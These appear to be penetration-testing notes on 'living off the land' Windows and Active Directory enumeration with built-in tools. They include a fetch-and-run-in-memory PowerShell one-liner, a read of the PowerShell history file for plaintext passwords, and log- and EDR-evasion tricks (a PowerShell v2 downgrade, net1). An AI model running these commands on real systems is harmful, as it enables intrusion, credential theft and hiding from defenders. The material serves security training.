

# Living Off the Land

Sometimes you land on a host with no internet access and nowhere to pull tools from, or the client's scope explicitly restricts you to what's already installed. "Living off the land" (LOTL) means doing the same enumeration covered in [credentialed enumeration](credentialed-enumeration.md) using only binaries and modules that already ship with Windows. It's also simply **stealthier** — nothing new touches disk, so there's nothing for IDS/IPS, a firewall, or EDR file-monitoring to flag as anomalous.

## Fast host recon

| Command | Returns |
| :--- | :--- |
| `hostname` | Machine name |
| `[System.Environment]::OSVersion.Version` | OS version/build |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Installed patches |
| `ipconfig /all` | Network adapter config |
| `echo %USERDOMAIN%` | Domain name |
| `echo %logonserver%` | Which DC this host checks in with |
| `systeminfo` | **All of the above in one command** |

!!! tip "Prefer systeminfo"
    One command instead of six means one log entry instead of six — meaningfully quieter on a monitored host.

## Harnessing PowerShell

```powershell
Get-Module                                   # what's already loaded (also check for admin/Git scripts)
Get-ExecutionPolicy -List
Set-ExecutionPolicy Bypass -Scope Process    # scoped to this process only — reverts on exit, no permanent change
Get-ChildItem Env: | ft Key,Value
```

```powershell
# PowerShell command history — frequently contains plaintext passwords or paths to config/scripts
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```

```powershell
# download and execute from memory, no file ever touches disk
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('<URL>'); <cmds>"
```

### OPSEC: PowerShell version downgrade

Script Block Logging (Event ID 4104) only exists from PowerShell v3.0 onward. Downgrading the session to v2 means subsequent commands in that session aren't logged by it at all.

```powershell
Get-Host                     # current version, e.g. 5.1
powershell.exe -version 2    # downgrade
Get-Host                     # confirm: Version : 2.0
```

!!! warning "The downgrade itself is logged"
    `powershell.exe -version 2` generates Event ID 400 (new session started, HostVersion 2.0) in the Windows PowerShell log. A defender who notices PowerShell logging suddenly going quiet on a host has a clear lead to investigate — this buys stealth for subsequent commands, not for the pivot itself.

Logs to be aware of either way:

- `Applications and Services Logs > Microsoft > Windows > PowerShell > Operational` — Event ID 4104 (Script Block Logging)
- `Applications and Services Logs > Windows PowerShell` — Event ID 400 (session start)

## Checking defenses natively

```powershell
netsh advfirewall show allprofiles   # firewall state + policy per profile (Domain/Private/Public)
```

```bash
sc query windefend           # CMD — is Defender running at all
```

```powershell
Get-MpComputerStatus         # PowerShell — detailed status: RealTimeProtectionEnabled, tamper protection, signature versions
```

## Am I alone on this host?

```powershell
qwinsta
```

Shows every active session. If someone else is logged in, there's a real risk they notice a popup, an unexpected logout, or odd CPU — and either report it or change the account's password out from under you.

## Network information — find pivot targets without scanning

```powershell
arp -a           # hosts already known to this box via its ARP cache
route print      # known networks — reveals segments reachable for a pivot
```

`arp -a` plus `route print` surfaces lateral movement targets without generating a single scan packet — especially valuable in a black-box or evasive assessment where noisy discovery scanning is explicitly off-limits.

## WMI (Windows Management Instrumentation)

```powershell
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
wmic ntdomain list /format:list          # domain + DC info
wmic ntdomain get Caption,Description,DnsForestName,DomainName,DomainControllerAddress
wmic useraccount list /format:list       # local + logged-in domain accounts
wmic group list /format:list
wmic sysaccount list /format:list        # service accounts
```

## net.exe

```powershell
net accounts /domain                     # password + lockout policy
net group "Domain Admins" /domain        # DA membership
net group "Domain Controllers" /domain
net localgroup administrators /domain
net user <user> /domain
net view \\<TARGET_IP> /ALL              # shares on a host
```

!!! danger "net.exe is heavily EDR-monitored"
    Some orgs specifically alert on known-abuse patterns like `net localgroup administrators` or even plain `whoami`. On an evasive engagement, this is a real tripwire. `net1` is functionally identical to `net` and can slip past monitoring rules that only pattern-match on `net.exe`:

    ```bash
    net1 group /domain
    ```

## dsquery and raw LDAP filters

`dsquery.dll` ships on every modern Windows install at `C:\Windows\System32\`, though the `dsquery` command itself needs the AD DS role or an elevated/SYSTEM context to run.

```powershell
dsquery user
dsquery computer
dsquery * "CN=Users,DC=<DOMAIN>,DC=LOCAL"

# Users with PASSWD_NOTREQD (UAC bit 32)
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl

# Domain Controllers (UAC bit 8192)
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```

### Reading an LDAP filter

```text
userAccountControl:1.2.840.113556.1.4.803:=8192
```

That OID is a matching rule applied to the `userAccountControl` bitmask, and `8192` is the decimal value of the flag being tested for.

| OID | Rule |
| :--- | :--- |
| `1.2.840.113556.1.4.803` | Bit value must match **completely** |
| `1.2.840.113556.1.4.804` | Match if **any** bit in the chain matches |
| `1.2.840.113556.1.4.1941` | Match against Distinguished Name — walks nested group ownership/membership |

Common UAC bit values:



| Value | Meaning |
| :--- | :--- |
| 32 | `PASSWD_NOTREQD` |
| 64 | Password can't change |
| 8192 | Server trust account (Domain Controller) |

Filters combine with standard boolean operators:

```text
&   AND
|   OR
!   NOT

(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=64))             # user AND password-can't-change
(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=64))            # user that does NOT have it set
```

## Putting it together

```text
systeminfo → Get-Host (version check, downgrade if useful)
  → netsh / sc / Get-MpComputerStatus (what's watching)
    → qwinsta (am I alone?)
      → arp -a / route print (pivot targets, no scanning)
        → wmic / net / dsquery (domain enumeration)
          → LDAP filters for targeted object searches
```

## Next

LOTL enumeration is where Kerberoastable accounts usually turn up too (`dsquery` or `net.exe` can surface SPNs natively) — move to [Kerberoasting](kerberoasting.md) once you have candidates.
